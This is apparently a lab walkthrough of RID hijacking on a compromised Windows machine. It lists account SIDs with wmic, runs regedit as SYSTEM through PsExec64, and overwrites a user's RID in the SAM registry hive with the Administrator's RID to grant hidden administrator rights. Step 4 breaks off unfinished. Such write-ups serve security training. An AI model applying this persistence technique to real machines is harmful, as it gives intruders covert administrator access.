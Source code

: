 ```Bash
```


#
## RID Hijacking

1. Start this room's machine
2. `cd \` from the compromised Windows machine to change to the their filesystem's root directory to ensure that we'll be executing the following commands from starting from there
```PowerShell
PS C:\Users\Administrator> cd \
```
3. `wmic useraccount get name,sid` from the compromised Windows machine to retrieve and display onto our terminal the names and Security Identifiers (SID) of all user accounts that are on the compromised Windows machine, for which the last bit represents the user's Relative ID (RID)
```PowerShell
PS C:\> wmic useraccount get name,sid
Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
Guest               S-1-5-21-1966530601-3185510712-10604624-501
thmuser0            S-1-5-21-1966530601-3185510712-10604624-1011
thmuser1            S-1-5-21-1966530601-3185510712-10604624-1008
thmuser2            S-1-5-21-1966530601-3185510712-10604624-1009
thmuser3            S-1-5-21-1966530601-3185510712-10604624-1010
thmuser4            S-1-5-21-1966530601-3185510712-10604624-1013
WDAGUtilityAccount  S-1-5-21-1966530601-3185510712-10604624-504
```
4. Since 
5. `cd <PSTOOLS PATH>` from the compromised Windows machine to change into where our PsExec64.exe program was in order to run the Registry Editor as SYSTEM, since in order for us to assign the Administrator's RID to our target user (thmuser3), we need to access the SAM using the Registry Editor which we won't be able to do since the SAM is restricted to the SYSTEM account only, which we currently aren't logged in as
```PowerShell
C:\>cd C:\tools\pstools
```
6. `PsExec64 -i -s regedit` from the compromised Windows machine to execute the PsExec64 command-line utility tool under the SYSTEM account, which allowed us to open the Registry Editor (**Regedit**) and manually set our target user's RID (1010) to the Administrator's RID (500), which we did by heading over to **Computer\HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Users**, opening the registry key that has our target user's RID (03F2) under hexadecimal format in its name, going inside and opening the "F" REG_BINARY file, and then finding and replacing our target user's RID (03F2), which is represented here in hexadecimal, and replacing it with the Administrator's RID (01F4) in hexadecimal format as well, and by doing so, the next time this user will connect and log in to the compromised machine, the LSASS will associate this user's RID with the Administrator's RID and it'll assign them their privileges
```PowerShell
C:\tools\pstools>PsExec64 -i -s regedit

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com
```
